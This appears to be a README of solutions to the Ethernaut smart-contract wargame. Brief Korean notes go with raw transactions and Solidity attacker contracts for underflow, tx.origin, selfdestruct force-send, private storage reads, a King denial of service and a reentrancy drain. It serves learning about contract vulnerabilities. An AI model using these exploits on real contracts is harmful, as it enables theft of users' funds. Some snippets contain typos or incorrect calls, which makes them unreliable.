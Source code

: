 # ethernaut-solve
https://ethernaut.openzeppelin.com/

### Hello Ethernaut
```
await contract.authenticate(await contract.address())
```

### Fallback
```
await sendTranscation({from:player, to:contract.address, value:1, data:"0xd7bb99ba"}) // call contribute
await sendTranscation({from:player, to:contract.address, value:1}) // fallback and take owner
await sendTranscation({from:player, to:contract.address, data:"0x3ccfd60b"}) // withdraw
```

### Fallout
낮은 버전 solidity에서 constructor 네이밍 실수
```
await sendTranscation({from:player, to:contract.address, data:"0x6fab5ddf"}) // call Fal1out
```

### Coin Flip
inner tx가 원하는 결과를 반환하지않으면 revert
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlipCaller {
    address public coinFlipAddress = 0x72C860e67CEdfbc8B6Cc2BF9eAf6173be9A758BB;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function callFlip() public {
        bytes memory data = abi.encodeWithSignature("flip(bool)", true);

        (bool success, bytes memory result) = coinFlipAddress.call(data);
        
        if(!abi.decode(result, (bool)) || !success) revert();
    }
}
```

### Telephone
msg.sender = 현재 함수를 직접 호출한 address

tx.origin = 트랜잭션 최초로 호출한 address
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TakeTelephone {
    address public telephone = 0x209eDa374a2DF5ADA2BDd32797763325865935ce;
    address public newOwner = 0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446;

    function changeOwner() public {
        bytes memory data = abi.encodeWithSignature("changeOwner(address)", newOwner);

        (bool success, bytes memory result) = telephone.call(data);
        
        if(!success) revert();
    }
}
```

### Token
underflow를 활용한 토큰 탈취.
0.8부터는 해당 취약점은 개선됨.
```
const toAddress = '0xdead';
const toAddressPadded = '0'.repeat(24) + toAddress.slice(2).padStart(40, '0');

const value = 21;
const valuePadded = value.toString(16).padStart(64, '0');

const data = "0xa9059cbb" + toAddressPadded + valuePadded;
await sendTransaction({from:player, to:contract.address, data});
```

### Delegation
delegatecall은 현재 컨트랙트의 상태와 delegatedContract의 로직을 사용함.
```
const functionSignature = 'pwn()';
const functionSignatureHash = _ethers.utils.keccak256(_ethers.utils.toUtf8Bytes(functionSignature));
const functionSelector = functionSignatureHash.slice(0, 10);
await sendTransaction({from:player, to:contract.address, functionSignature});
```

### Force
selfdestruct를 이용하면 payable이 없는 CA도 eth를 강제 송금할 수 있음.

cacun 부터는 selfdestruct를 사용하더라도 CA owner에게 eth가 송금됨.

0.8.18부터는 selfdestruct가 deprecated됨. [EIP-6049](https://eips.ethereum.org/EIPS/eip-6049)
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TakeMyMoney{
    address public force = 0xe21D5CA1330133C3Fb78886Ad0a58aFf85ed3771;
    
    receive() external payable {
        selfdestruct(payable(force));
    }
}
```

### Vault
solidity에서 private된 변수이더라도 슬롯을 확인하면 해당 값을 확인할 수 있음.
```
web3.eth.getStorageAt("0x0d0938d123467f4eA72bfd008683EeEAf092Fa5E", 2); // "412076657279207374726f6e67207365637265742070617373776f7264203a29"
await sendTransaction({from:player, to:contract.address, data: "0xec9b5b3a"+"412076657279207374726f6e67207365637265742070617373776f7264203a29"})
```

### King
단순히 송금만한다면 제출 시, 다시 king의 권한을 탈취당함. king이 권한을 탈취하려할 때 tx가 성공하지못하도록 함.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract IDontNeedMoney{
    address public king = 0xd91E4c9677AC67474a069E4A623e5382d1a6e4c6;
    
    function sendEth() public payable{
        (bool success, ) = king.call{value: msg.value}("");
        require(success, "Failed to send Ether");
    }

    receive() external payable {revert();}
    fallback() external payable {revert();}
}

await sendTransaction({from:player, to:"0x7Ae7F3c83AA535A448dC7B9C699970B5eECe18dc", data:"0x06e99fef", value:toWei("0.001000001")})
```

### Reentrance
재진입을 시도할 때는, tx가 사용할 수 있는 gas 한도를 설정해주는게 중요함. 
```
const toAddress = "0x85299fFfa575FfA9cAe9B186c812C905D98A49a1"
const toAddressPadded = '0'.repeat(24) + toAddress.slice(2).padStart(40, '0');

const functionSignature = 'donate(address)';
const functionSignatureHash = _ethers.utils.keccak256(_ethers.utils.toUtf8Bytes(functionSignature));
const functionSelector = functionSignatureHash.slice(0, 10);

await sendTransaction({from:player, to:contract.address, data:functionSelector+toAddressPadded, value:toWei("0.001")})
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

contract DoubleSpend {
    address public owner;
    address public target = 0x0d1B128F01A560FfB16b04548f0182C298AA52DB;
    uint256 amount = 0.001 ether;

    constructor() public{
        owner = msg.sender;
    }
    
    function callWithdraw() public {
        (bool success, ) = target.call{gas: 500000}(abi.encodeWithSignature("withdraw(uint256)", amount));
        require(success, "Withdraw call failed");
    }

    // Function to receive Ether
    receive() external payable {
        if (address(target).balance >= amount) {
            callWithdraw();
        }
    }

    function withdraw() public{
        require(owner == msg.sender, "not owner");
        selfdestruct(payable(owner));
    }
}

```

### Elevator
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Claimer is Building{
    bool isEntered = false;
    address public elevator = 0x592d6c1CD0C06a45135A59a33Cfd817d53c1A373;

    function callGoTo() public{
        (bool success,) = elevator.call(abi.encodeWithSignature("goTo(uint256)", 0));
    }
    function isLastFloor(uint256) external override  returns (bool){
        if(!isEntered){
            isEntered = true;
            return false;
        }
        return true;
    }
}
```

